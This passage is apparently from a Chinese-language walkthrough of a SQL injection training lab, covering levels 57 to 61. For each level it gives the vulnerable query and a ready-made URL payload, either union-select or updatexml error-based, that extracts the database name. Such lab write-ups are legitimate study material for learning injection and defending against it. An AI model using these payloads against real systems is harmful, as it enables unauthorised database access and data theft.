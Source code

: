 ### 57、联合查询 [ " ]

```mysql
# SQL语句
$id= '"'.$id.'"';
SELECT * FROM security.users WHERE id=$id LIMIT 0,1;
# 过滤语句
无
# Payload
?id=0" union select 1,2,database()--+
```

### 58、报错注入 [ ' ]

```mysql
# SQL语句
SELECT * FROM security.users WHERE id='$id' LIMIT 0,1;
# 过滤语句
无
# Payload
?id=-1' and updatexml(1,concat(0x7e,(database()),0x7e),1) --+
```

### 59、报错注入 [ ]

```mysql
# SQL语句
SELECT * FROM security.users WHERE id=$id LIMIT 0,1;
# 过滤语句
无
# Payload
?id=-1 and updatexml(1,concat(0x7e,database(),0x7e),1)--+
```

### 60、报错注入 [ ") ]

```mysql
# SQL语句
$id = '("'.$id.'")';
SELECT * FROM security.users WHERE id=$id LIMIT 0,1;
# 过滤语句
无
# Payload
?id=-1") and updatexml(1,concat(0x7e,concat(database()),0x7e),1)--+
```

### 61、报错注入 [ ')) ]

```mysql
# SQL语句
SELECT * FROM security.users WHERE id=(('$id')) LIMIT 0,1;
# 过滤语句
无
# Payload
?id=-1')) and updatexml(1,concat(0x7e,(database()),0x7e),1)--+
```
